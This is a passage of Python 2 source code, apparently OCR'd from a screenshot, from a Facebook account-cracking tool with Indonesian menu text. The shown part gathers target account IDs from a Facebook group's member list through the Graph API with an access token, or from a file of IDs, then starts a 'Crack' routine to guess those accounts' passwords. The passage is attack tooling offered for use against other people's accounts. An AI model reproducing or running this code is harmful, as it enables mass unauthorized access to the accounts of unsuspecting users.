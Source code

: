         else:
            if peak == '2':
                os.system('clear')
                print logo
                print 52 * '\x1b[1;97m\xe2\x95\x90'
                idg = raw_input('\x1b[1;91m[+] \x1b[1;92mID Group   \x1b[1;91m:\x1b[1;97m ')
                try:
                    r = requests.get('https://graph.facebook.com/group/?id=' + idg + '&access_token=' + toket)
                    asw = json.loads(r.text)
                    print '\x1b[1;91m[\x1b[1;96m\xe2\x9c\x93\x1b[1;91m] \x1b[1;92mName grup \x1b[1;91m:\x1b[1;97m ' + asw['name']
                except KeyError:
                    print '\x1b[1;91m[!] Group not found'
                    raw_input('\n\x1b[1;91m[ \x1b[1;97mBack \x1b[1;91m]')
                    super()

                re = requests.get('https://graph.facebook.com/' + idg + '/members?fields=name,id&limit=999999999&access_token=' + toket)
                s = json.loads(re.text)
                for i in s['data']:
                    id.append(i['id'])
                    
            else:
                if peak == '3':
                    os.system('clear')
                    print logo
                    print 52 * '\x1b[1;97m\xe2\x95\x90'
                    try:
                        idlist = raw_input('\x1b[1;91m[+] \x1b[1;92mFile ID  \x1b[1;91m: \x1b[1;97m')
                        for line in open(idlist,'r').readlines():
                        	id.append(line.strip())
                    except IOError:
                        print '\x1b[1;91m[!] File not found'
                        raw_input('\n\x1b[1;91m[ \x1b[1;97mBack \x1b[1;91m]')
                        super()

                else:
                    if peak == '0':
                        menu_hack()
                    else:
                        print '\x1b[1;91m[\xe2\x9c\x96] \x1b[1;97m' + peak + ' \x1b[1;91mTidak ada'
                        pilih_super()
    print '\x1b[1;91m[+] \x1b[1;92mTotal ID \x1b[1;91m: \x1b[1;97m' + str(len(id))
    jalan('\x1b[1;91m[\xe2\x9c\xba] \x1b[1;92mPlease wait \x1b[1;97m...')
    titik = ['.   ', '..  ', '... ']
    for o in titik:
        print '\r\r\x1b[1;91m[\x1b[1;96m\xe2\x9c\xb8\x1b[1;91m] \x1b[1;92mCrack \x1b[1;97m' + o,
        sys.stdout.flush()
        time.sleep(1)

    print
    print 52 * '\x1b[1;97m\xe2\x95\x90'
